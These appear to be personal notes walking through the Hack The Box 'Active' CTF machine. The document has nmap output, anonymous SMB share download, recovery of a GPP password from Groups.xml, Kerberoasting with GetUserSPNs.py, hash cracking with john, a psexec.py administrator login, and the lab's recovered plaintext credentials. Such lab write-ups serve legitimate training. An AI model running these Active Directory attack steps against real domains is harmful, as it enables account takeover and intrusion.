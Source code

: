 # Enumeration 
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

## open ports

```
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-01-13 06:15:54Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?                                                 
464/tcp   open  kpasswd5?                                                                                                                                    
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC

```




### Port 53

No zone transfer

### port 445

anonymous login allowed

![[Pasted image 20230113082117.png]]
![[Pasted image 20230113082145.png]]
domain leak
active.htb
download everything
```
mask ""
recurse ON
prompt OFF
mget * 
```

Inside 
`Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups`
we found Groups.xml and it contains password and is crackable
![[Pasted image 20230113082958.png]]
![[Pasted image 20230113083034.png]]
add domain to hosts file
`echo "10.129.132.35 active.htb" | sudo tee -a /etc/hosts`
We have a service account so we can do kerberoasting  attack 

first we need to get administrator hash
```
GetUserSPNs.py active.htb/SVC_TGS -dc-ip $ip -request
```
![[Pasted image 20230113083325.png]]

`GetUserSPNs.py active.htb/SVC_TGS -dc-ip $ip -request -outputfile hash`
crack the hash to get administrator creds
`john --format=krb5tgs hash --wordlist=/usr/share/wordlists/rockyou.txt`
![[Pasted image 20230113084243.png]]

`psexec.py administrator:'Ticketmaster1968'@$ip`

![[Pasted image 20230113084759.png]]
# Foothold 



# Privesc 
# Loot

SVC_TGS creds:
	username:SVC_TGS
	password:GPPstillStandingStrong2k18

Administrator creds:
	username:administrator
	password:Ticketmaster1968


---
Tags: #ctf #HTB 
Resources: [Active](https://app.hackthebox.com/machines/Active)